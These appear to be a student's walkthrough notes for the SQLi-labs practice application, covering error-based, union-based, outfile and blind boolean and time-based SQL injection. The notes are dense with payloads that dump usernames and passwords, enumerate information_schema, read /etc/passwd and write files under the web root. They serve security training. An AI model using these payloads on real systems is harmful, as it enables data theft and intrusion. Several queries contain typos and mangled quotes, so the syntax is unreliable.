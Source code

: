 # sqli_labs
## lesson1
### Error-Based: Single Quotes,String
  * ?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
  * In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
  * Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
  * ?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
  * Commonly used injections like ' OR '1'='1--
  * OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
  * ?id=-1' union select 1,2,database() --+
  * SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
  * SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.

## lesson2
### Error-Based: IntegerBased
  * when we give ?id=1- we see the error as right syntax to use near'LIMIT 0,1' at line 1 (query broke)
  * error that extra " and 'quotes are present which means that the input is enclosed in them.
  * Select * from TABLE where id = 1’ ;
  * so there is use of integer for the query
  * Select * from TABLE where id = (some integer value);
  * SELECT username,password FROM TableName WHERE id=1--;
  * if we comment out the id number as (-- is used to comment out the input): http://localhost/sqli-labs/Less-2/?id=1 -- 
  * we receive the username and password.

## lesson3
### Error-Based: Single quotes (string)
  * when we give ?id=1- we see the error as right syntax to use near ””) LIMIT 0,1′ at line 1 (query broke)
  * Select login_name, select password from table where id= (‘our input here’)
  * So again we inject the code with this ?id=1′) -–+'    
  * we get back the output username and password.

## lesson4
### Error-Based: Double quotes (string)
  * After some unsuccessful attempts, we perform an error-based double quotes attack
  * ?id=1’’ injecting the code we can see a username and password.
  * we try to dump the database to retrieve some sensitive information. 
  * So here we use the union select command to dump the database like this: ?id=1’’) union select 1,2,3 –+
  * (here 1,2,3 is used since we assume 3 columns there, u can also try with 1,2)
  * Now we start mysql to dump database:
  * show databases;  -->to show databases
  * use security;  -->this helps to use the database security(which has important information)
  * show tables;  -->this helps to view the table, we can see four tables like users,emails,referers,uagents
  * We use system database, which is information_schema using the command: use information_schema;
  * See tables using "show tables;" command
  * Query : select table_name from information_schema, tables where table_schema = “security”;
  * inject the same query into the URL : ?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+
  * Query : ?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+  
  * (group together all the table names and dump it out as a string)
  * Query : ?id=1′ union select 1,group_concat(username),group_concat(password) from users –+

## lesson5
### Fixing the query without using comments
  * Error-based double quotes injection attack as shown below.
  * when ?id=2 or any other integer we get the message you are in ....
  * it is not similar to username and password as shown before
  * by giving the single quotes query gets broken, to see the developers format of query, we use escape character(\)
  * Query : ?id=1′ AND ‘2 (OR) ?id=3′ AND ‘4
  * 
  * After injecting this type of code, the database always shows different usernames and passwords.
  * URL : ?-6′ union select 5,current_user,3 AND ‘1
  * We use this query for getting the current username.

## lesson6
### Double quote injection
  * ?id=2 try giving in the url 
  * Injecting the query, we can see an sql error message on the screen.
  * We start from the count function, which just returns us the number of rows.
  * select count(*) from informatio_schema.tables;
  * select rand(); --> gives random values between 0 and 1
  * select floor(); -->  prints the integer part alone
  * select floor(rand()*2)as dumb; --> gives either 0 or 1 as output
  * select table_name, table_schema from information_schema.tables group by table_schema; --> can see only email under security database
  * Dumping the database in the form of a sql error:
     - select concat((select database()))  --> used to dump the string
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a)  --> here 0x3a is for quote
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a  --> renamed as a
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns
     - select count(*), concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a,(select table_name from),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a(select version()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump version)
     - select count(*), concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump user)

## lesson7
### Using out file dump database
  * ?id=1′–+  (sql query broke)
  * use security;
  * select * from users;
  * select * from users limit 0,1 into dumpfile “/tmp/test2.txt”  (for dumping the database)
  * select load_file(“etc/passwd”);  (for loading files from the file system into mysql)
  * select load_file(“etc/passwd”) into outfile “tmp/test4.txt”; (combination of the above 2)
  * query will be : ?id=2′)) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –+
  * checking the Less-7/union2.txt file after this gives us the data or info as output

## lesson8
### Blind sqli Boolean-based single quotes
  *  Injecting some queries we see that we do not have an error message on the screen. 
  *  We are not sure here that the injection exists on this page or not, that's why this type of injection is called blind injection. 
  *  There are two types of blind injection, Boolean-based and Time-based injections.
  *  use security;
  *  select length(database());
  *  select substr(database(),1,1); --> substring is a part of the string
  *  select ascii(substr(database(),1,1)); --> ans:115 (s) (to get the ascii value of the substring)
  *  select ascii(substr(database(),2,1)); --> ans:101 (e) (like this we can find character one by one)
  *  select ascii(substr(database(),2,1)) = 101;  --> value returned is true
  *  select ascii(substr(database(),2,1)) < 101;  --> returns false since ascii value not less than 101
  *  ?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 --+  (this query is true, so message like 'you are in ....' is printed)
  *  for any other invalid value it gives no message as before
  *  id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –+  (message you are in...)
  *  so 1st letter is e as value is 101, e stands for email

## lesson9 and lesson10
### Blind sqli Boolean-based single quotes
  * In this lesson we can't see an error that we have tampered the query, which results in Mysql error. 
  * So now it makes us check whether SQL injection is possible and we will also use sleep command in mysql.
  * Query select if((select database()=”security”, sleep(10), null); we get the response 10s after sleep, giving us the result that a database security exists.
  * This is also known as a time-based SQL query. 
  * Similarly if we try to run the query select if ((select database()=”securi”, sleep(10), null); 
  * There is no time-based response from the SQL server which means that such a database does not exist.
  * Now we do the same thing in our browser query.
  * We alter the parameter with ?id=1′ and ((select database()=”security”, sleep(10), null);
  * There is a waiting response from the browser. Since the query was able to detect the database it gives us the response. 
  * If the database name were incorrect, we would not have got a waiting response.




